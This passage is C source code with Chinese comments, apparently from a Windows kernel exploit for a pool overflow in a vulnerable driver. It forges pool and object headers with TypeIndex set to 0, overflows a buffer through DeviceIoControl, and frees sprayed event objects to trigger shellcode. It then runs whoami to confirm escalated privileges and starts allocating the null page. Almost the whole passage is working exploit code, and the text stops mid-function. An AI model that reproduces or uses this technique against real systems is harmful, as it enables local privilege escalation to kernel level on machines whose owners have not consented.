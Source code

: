 ```
    PKEVENT kEvent = (PKEVENT)(szInput + INPUT_BUFFER_LENGTH);
 
    kEvent->PoolHeader.uLong1 = 0x04080040;
    kEvent->PoolHeader.PoolTag = 0xee657645;
     
    kEvent->ObjectQuotaHeader.PagedPoolCharge = 0x0;
    kEvent->ObjectQuotaHeader.NonPagedPoolCharge = 0x40;
    kEvent->ObjectQuotaHeader.SecurityDescriptorChage = 0x0;
    kEvent->ObjectQuotaHeader.SecurityDescriptorQuotaBlock = 0x0;
 
    kEvent->ObjectHeader.PointerCount = 0x01;
    kEvent->ObjectHeader.HandleCount = 0x01;
    kEvent->ObjectHeader.Lock = 0x00;
    kEvent->ObjectHeader.TypeIndex = 0x00;    // TypeIndex指定为0
    kEvent->ObjectHeader.InfoMask = 0x08;
    kEvent->ObjectHeader.Flags = 0x00;
 
    if (!DeviceIoControl(hDevice,
               dwIoCtl,
               szInput,
               INPUT_BUFFER_LENGTH + EVENT_SIZE,
               NULL,
               0,
               &dwReturnLength,
               NULL))
    {
        ShowError("DeviceIoControl", GetLastError());
        goto exit;
    }
 
    // 释放事件对象，这里面的某个被淹没掉了，所以会触发ShellCode
    for (DWORD i = 0; i < EVENT_NUMBER; i++)
    {
        if (g_hEvent[i])
        {
            CloseHandle(g_hEvent[i]);
            g_hEvent[i] = NULL;
        }
    }
 
    if (g_bIsExecute)
    {
        printf("ShellCode执行完成\n");
        system("whoami");
    }
exit:
    if (hDevice) CloseHandle(hDevice);
     
    system("pause");
 
    return 0;
}
 
bool SetZeroMemory()
{
    NTSTATUS status = STATUS_SUCCESS;
    PVOID pZeroAddress = NULL;
    DWORD dwZeroSize = PAGE_SIZE;
    bool bRet = true;
 
    // 获得0地址的内存
    pZeroAddress = (PVOID)sizeof(ULONG);
    status = NtAllocateVirtualMemory(NtCurrentProcess(),
```